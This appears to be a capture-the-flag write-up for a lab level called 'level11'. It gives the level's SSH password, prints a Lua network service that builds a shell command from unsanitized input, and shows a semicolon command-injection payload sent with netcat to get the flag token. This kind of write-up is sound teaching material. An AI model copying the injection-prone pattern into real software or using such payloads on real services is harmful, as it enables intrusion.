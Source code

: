 # Level11

## How to Login

To access the system, use the following SSH command:

```bash
ssh level11@<IP_ADDRESS> -p 4242
password: feulo4b72j7edeahuete3no7c
```

## How to Get the Flag

Upon logging in, you'll find a Lua script named `level11.lua`. This script implements a simple network service that performs a password check.

### Analyzing the Script

`ls` shows only the `level11.lua` file. Running the script directly results in an "address already in use" error:

```
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

This indicates that the script is already running as a background process.  `cat level11.lua` reveals the script's contents:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Key observations:

*   **Network Service:** The script uses the `socket` library to bind to `127.0.0.1` (localhost) on port `5151`.  This confirms it's a network service.
*   **`hash` Function:** This function takes a password as input, pipes it to the `echo` command, and then pipes the output to `sha1sum`.  It extracts the first 40 characters of the SHA1 hash.  This is the vulnerability.
*   **Command Injection:** The `hash` function uses `io.popen` to execute a shell command.  Crucially, the input `pass` is concatenated directly into the command string without any sanitization. This creates a command injection vulnerability.
* **Verification**: You can verify with `nc -zv 127.0.0.1 5151` that the port is open.

### Exploiting the Vulnerability

We can inject arbitrary commands into the `echo` command within the `hash` function. We'll use a semicolon (`;`) to terminate the intended `echo` command and then add our own command.

1.  **Craft the Payload:**  We want to execute `getflag` and redirect its output to a file in `/tmp` (since we likely don't have write access to the current directory).  The payload will be:

    ```
    ; getflag > /tmp/flag11
    ```

    The leading semicolon terminates the `echo` command. `getflag` is executed, and its output is redirected to `/tmp/flag11`.

2.  **Send the Payload:** Use `netcat` (`nc`) to connect to the service and send the payload.  We'll pipe the payload to `nc`:

    ```bash
    echo "; getflag > /tmp/flag11" | nc 127.0.0.1 5151
    ```

    *   `echo "; getflag > /tmp/flag11"`:  This creates the payload string.
    *   `|`:  This pipes the output of `echo` to the input of `nc`.
    *   `nc 127.0.0.1 5151`: This connects to the vulnerable service running on localhost, port 5151.

3.  **Retrieve the Flag:**  The `getflag` command's output will now be in `/tmp/flag11`.  Read it:

    ```bash
    cat /tmp/flag11
    ```

    This will output:

    ```
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
    ```

```


